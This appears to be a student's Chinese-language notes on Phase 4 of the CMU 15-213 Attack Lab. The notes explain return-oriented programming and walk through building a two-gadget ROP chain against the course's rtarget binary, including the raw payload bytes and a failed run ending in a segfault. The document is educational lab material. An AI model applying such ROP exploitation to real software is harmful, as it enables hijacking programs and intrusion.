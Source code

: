 因此人们通过 **执行已有代码** 而不是 **注入新代码** 使得攻击成为可能，其中最广泛使用的方法为 ***return-oriented programming*** ,这个方法将以`ret`结尾的代码段辨识为`gadget`

<img src="/Users/wenzheng/Library/Application Support/typora-user-images/image-20201007172227552.png" alt="image-20201007172227552" style="zoom:50%;" />

Figure 2描述了栈可以被设置为执行n个gadget的序列。图中，栈存储了一系列的gadget的地址，每个gadget都由`ret`指令结尾，当程序从这个结构开始执行ret指令时，它将启动一系列gadget执行，每个gadget末尾的ret指令会导致程序跳转到下一个gadget的开头。

#### Phase4

目的：对`rtarget`使用gadget来实现Phase2的攻击

使用由如下指令组成的并且只使用从`rax`到`rdi`8个初始寄存器的gadgets：

`movq, popq, ret, nop`

Some Advice:

+ 只使用从`start_farm`到`mid_farm`之间的gadget
+ 只使用两个gadgets
+ 当`gadgets`使用`pop`指令后，将会从栈中弹出数据，因此，你的攻击代码将包含gadget地址和数据的组合



思路分析：

+ 通过拆分组合gadget中的代码得到Phase2中的代码：

  ```asm
  mov 0x59b997fa, %rdi
  pushq $0x4017ec
  ret
  ```

+ 因为栈中数据无法被执行，因此向test的返回地址以及test的栈顶注入gadget的地址，以便跳转到gadget中执行

+ 向返回地址注入能够实现`pop %rax`的代码的地址，查阅得编码为`58`
+ 向返回地址+8处注入0x59b997fa
+ 向返回地址+16处注入能够实现`mov %rax, %rdi`的代码
+ 向返回地址+24处注入0x4017ec

**思路失败**：

+ 过程与结果为：

  ```
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  cc 40 19 00 00 00 00 00
  fa 97 b9 59 00 00 00 00
  c5 19 40 00 00 00 00 00
  ec 17 40 00 00 00 00 00
  
  zwen@zwen-virtual-machine:~/桌面/cmu-15213-labs/target1$ ./rtarget -q <attack-raw.txt
  Cookie: 0x59b997fa
  Type string:Ouch!: You caused a segmentation fault!
  Better luck next time
  FAIL: Would have posted the following:
  	user id	bovik
  	course	15213-f15
  	lab	attacklab
  	result	1:FAIL:0xffffffff:rtarget:0:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 40 19 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
  
  ```
